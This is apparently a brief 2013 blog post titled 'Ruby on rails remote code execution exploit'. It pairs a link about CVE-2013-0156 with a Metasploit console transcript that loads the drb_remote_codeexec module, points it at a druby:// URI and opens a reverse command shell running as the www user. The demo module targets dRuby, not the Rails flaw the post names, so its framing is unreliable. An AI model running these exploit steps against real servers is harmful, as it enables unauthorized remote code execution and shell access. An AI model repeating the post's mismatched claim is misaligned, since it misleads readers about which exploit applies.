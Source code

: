 +++
date = "2013-01-11T14:09:58+00:00"
draft = false
tags = ["security", "rails", "ruby"]
title = "Ruby on rails remote code execution exploit"
author = "jpic"
+++

Ruby on rails websites [are highly vulnerable](https://community.rapid7.com/community/metasploit/blog/2013/01/09/serialization-mischief-in-ruby-land-cve-2013-0156?x=1).

Exploiting a rails site looks like this:

    $ msfconsole
    msf> use exploit/linux/misc/drb_remote_codeexec
    msf  exploit(drb_remote_codeexec) > set URI druby://localhost:45074
    msf  exploit(drb_remote_codeexec) > exploit
    [*] Started reverse double handler
    [*] trying to exploit instance_eval
    < snip >
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (192.168.0.4:4444 -> 192.168.0.4:53299) at 2013-01-09 13:06:39 -0600
    id
    uid=1001(www) gid=1001(www) groups=1001(www)
